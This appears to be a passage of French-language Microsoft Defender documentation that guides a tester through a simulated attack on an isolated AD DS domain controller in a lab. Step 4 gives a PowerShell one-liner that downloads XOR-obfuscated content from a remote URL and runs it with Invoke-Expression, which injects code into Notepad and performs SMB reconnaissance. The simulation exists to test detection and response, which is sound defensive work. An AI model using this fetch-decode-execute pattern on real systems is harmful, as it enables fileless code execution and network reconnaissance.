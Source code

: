 > [!IMPORTANT]
> Pour obtenir des résultats optimaux, suivez les instructions de simulation d’attaque aussi étroitement que possible.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Exécuter la simulation d’attaque de contrôleur de domaine AD DS isolé

Pour exécuter la simulation de scénario d’attaque :

1. Assurez-vous que votre environnement pilote inclut le contrôleur de domaine AD DS isolé et Windows appareil.

2. Connectez-vous au périphérique de test avec le compte d’utilisateur test.

3. Ouvrez une Windows PowerShell sur le périphérique de test.

4. Copiez le script de simulation suivant :

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Si vous ouvrez cet article sur un navigateur web, vous pouvez rencontrer des problèmes lors de la copie du texte intégral sans perdre certains caractères ou introduire des coupures de ligne supplémentaires. Si tel est le cas, téléchargez ce document et ouvrez-le sur Adobe Reader.

5. Collez et exécutez le script copié dans la fenêtre PowerShell.

> [!NOTE]
> Si vous exécutez PowerShell à l’aide du protocole RDP (Remote Desktop Protocol), utilisez la commande Type Clipboard Text dans le client RDP, car la méthode **CTRL-V** hotkey ou right-click-paste risque de ne pas fonctionner. Les versions récentes de PowerShell n’acceptent parfois pas non plus cette méthode. Il se peut que vous deiez d’abord copier vers Bloc-notes en mémoire, la copier dans la machine virtuelle, puis la coller dans PowerShell.

Quelques secondes plus tard, l’Bloc-notes’application s’ouvre. Un code d’attaque simulée est injecté dans Bloc-notes. Gardez l’instance générée automatiquement Bloc-notes ouverte pour découvrir le scénario complet.

Le code d’attaque simulée tente de communiquer avec une adresse IP externe (simulant le serveur C2), puis de tenter la reconnaissance sur le contrôleur de domaine via SMB.

Ce message s’affiche sur la console PowerShell lorsque ce script se termine :

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Pour voir la fonctionnalité Incident et réponse automatisé en action, maintenez le processus notepad.exe ouvert. Les incidents et réponses automatisés arrêtent le processus Bloc-notes automatique.
